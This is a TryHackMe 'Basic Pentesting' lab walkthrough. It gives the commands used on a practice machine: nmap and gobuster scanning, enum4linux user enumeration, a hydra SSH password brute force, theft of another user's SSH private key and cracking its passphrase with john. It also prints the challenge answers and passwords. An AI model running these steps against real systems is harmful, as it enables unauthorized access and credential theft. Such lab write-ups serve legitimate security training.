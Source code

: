# TryHackMe challenge

## Basic Pentesting

> _tihawk | May 17, 2021_

----------------------------------------

### TASK 1. Web App Testing and Privilege Escalation 

<p>In these set of tasks you'll learn the following:</p><ul><li>brute forcing </li><li>hash cracking </li><li>service enumeration</li><li>Linux Enumeration</li></ul><p>The main goal here is to learn as much as possible. Make sure you are connected to our network using your <a href="https://tryhackme.com/access">OpenVPN configuration file</a>.</p><p>Credits to <a href="https://www.vulnhub.com/author/josiah-pierce,569/" target="_blank">Josiah Pierce</a> from Vulnhub.</p>

----------------------------------------

### QUESTIONS:

----------------------------------------

```
export IP=10.10.192.235
```

1. Deploy the machine and connect to our network

```
OK
```

2. Find the services exposed by the machine

```
nmap -sC -sV -oN nmap/initial -vvv $IP
```

```
OK
```

3. What is the name of the hidden directory on the web server(enter name without /)?

```
gobuster dir -u http://$IP -w /opt/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.192.235
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/05/17 20:40:12 Starting gobuster in directory enumeration mode
===============================================================
/development          (Status: 301) [Size: 320] [--> http://10.10.192.235/development/]
```

```
development
```

4. User brute-forcing to find the username &amp; password

```
OK
```

5. What is the username? 

```
enum4linux -a $IP | tee enum.log
```

```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

```
jan
```

6. What is the password?

```
hydra -l jan -P /opt/rockyou.txt ssh://$IP
```

```
armando
```

7. What service do you use to access the server(answer in abbreviation in all caps)?

```
SSH
```

8. Enumerate the machine to find any vectors for privilege escalation 

```
scp /opt/linpeas.sh jan@$IP:/dev/shm/
```

> Linpeas gives us the information about a private ssh key, but honestly we already should have known that.

```
OK
```

9. What is the name of the other user you found(all lower case)?

```
kay
```

10. If you have found another user, what can you do with this information? 

```
scp jan@$IP:/home/kay/.ssh/* ./kay_ssh/
chmod 600 id_rsa
python2 /usr/bin/ssh2john id_rsa > forjohn.txt
john --wordlist=/opt/rockyou.txt forjohn.txt 

beeswax

ssh -i id_rsa kay@$IP
cat pass.bak
```

```
OK
```

11. What is the final password you obtain?

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

